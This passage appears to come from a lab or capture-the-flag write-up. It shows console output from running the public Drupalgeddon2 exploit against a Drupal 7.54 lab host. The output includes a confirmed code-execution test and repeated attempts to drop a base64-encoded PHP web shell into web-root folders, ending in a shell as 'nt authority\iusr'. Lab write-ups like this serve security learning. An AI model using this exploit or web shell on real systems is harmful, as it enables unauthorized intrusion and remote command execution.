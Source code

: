 I’ll turn intercept on, and run the exploit again. This time, I’ll change POST to GET, and then let things go. I get a shell:

```

root@kali# ruby 44449.rb http://10.10.10.9/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt (200)
[+] Drupal!: 7.54
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo WVJGKBOE
[+] Result : WVJGKBOE
[{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"368chTEHIkCulf-OByrxM4BA-4dnOTil83SURlLwdqI"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"368chTEHIkCulf-OByrxM4BA-4dnOTil83SURlLwdqI"}}}]
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
[+] Result : [{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"ZhoePAwixyS4fgsUjDewohxgu6fjhuZvkuZ-7g1o5Ow"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"ZhoePAwixyS4fgsUjDewohxgu6fjhuZvkuZ-7g1o5Ow"}}}]
[!] Target is NOT exploitable. No write access here!
[*] Testing: File Write To Web Root (./sites/default/)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./sites/default/s.php
[+] Result : [{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"A0vSSq_CrSQFs5fhTMcTp4kmAIPC3kngzkEoGUcfU68"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"A0vSSq_CrSQFs5fhTMcTp4kmAIPC3kngzkEoGUcfU68"}}}]
[!] Target is NOT exploitable. No write access here!
[*] Testing: File Write To Web Root (./sites/default/files/)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./sites/default/files/s.php
[+] Result : [{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"ihPSnSsmU8uU3SKBtuN2qCcnNQA1Ha9CqKpMiVhINfs"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"ihPSnSsmU8uU3SKBtuN2qCcnNQA1Ha9CqKpMiVhINfs"}}}]
[!] Target is NOT exploitable. No write access here!
--------------------------------------------------------------------------------
[!] FAILED to find writeable folder
[*] Dropping back to ugly shell...
drupalgeddon2>> whoami
nt authority\iusr

```

